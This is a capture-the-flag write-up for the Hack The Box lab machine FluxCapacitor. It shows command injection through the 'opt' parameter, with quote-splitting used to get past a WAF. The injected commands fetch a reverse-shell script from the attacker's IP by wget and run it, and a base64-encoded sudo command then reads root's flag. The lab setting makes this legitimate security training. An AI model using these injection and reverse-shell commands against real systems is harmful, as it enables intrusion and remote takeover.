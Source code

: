# FluxCapacitor
[![FluxCapacitor](https://www.hackthebox.eu/storage/avatars/c494431a9d3f52bd96e5cc2cf94f06e4.png)](https://www.hackthebox.eu/home/machines/profile/119)

## Initial Foothold
We run nmap and we find out that port 80 is open and superwaf firewall is used.
```sh
$ nmap -T4 -A -v 10.10.10.69
```
Using dirb to search for directories doesn't really help because there is nothing to be found. All we got is the page "sync" we found from "View Page Source". We suspect that superwaf firewall might filters our attack. We can confirm that by causing a fault in the server simply sending an http request with wrong syntax. So we got the page (sync) and we need to find the parameter name (if exist). For this we give a value to the supposed parameter and if it is filtered by superwaf we will get the corresponding error and at the same time we will know the right parameter name.
```sh
$ wfuzz -c -z file,/usr/share/dirb/wordlists/common.txt --filter="c=403" http://10.10.10.69/sync?FUZZ=\ls
```
This will return only the responses with error code 403 wich will be caused from superwaf while it's trying to block the "ls" comand we gave as a value. The error code 403 was returned while the name of the parameter was ***opt***. Now we have to find the right value for this parameter and bypass the superwaf firewall. The ***'*** symbol as well as the \ symbol, is used in bash to concatenate strings. We can exploit this feature and use it to bypass the firewall. So we create a [reverse.py](/FluxCapacitor/reverse.py) and upload it to the remote. Next we give it privileges and execute it.
```sh
$ nc -lvp 1234
$ curl -s http://10.10.10.69/sync?opt=' wg'et' 'http://10.10.14.10/reverse.py' '-P' 'tmp
$ curl -s http://10.10.10.69/sync?opt=' pyth'on3' '/tmp/reverse.py
$ curl -s "http://10.10.10.69/sync?opt=' \l\s -la /tmp'"
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
$ cat /home/FluxCapacitorInc/user.txt
```

## Privesc
By executing the command bellow, we find out that we can run as the root user the program ***/home/themiddle/.monit***. If we read the code we can see that if we encode the parameter in base64, we can execute it as following.
```sh
$ sudo -l
$ sudo -u root ./.monit cmd Y2F0IC9yb290L3Jvb3QudHh0
```
Where ***Y2F0IC9yb290L3Jvb3QudHh0*** is ***cat /root/root.txt*** encode in base64.

***And we finally got root!***

[![bertolis](https://www.hackthebox.eu/badge/image/27897)](https://www.hackthebox.eu/home/users/profile/27897)  [![Fluxcapacitor](https://www.hackthebox.eu/images/logofull-tr-web.png)](https://www.hackthebox.eu/)
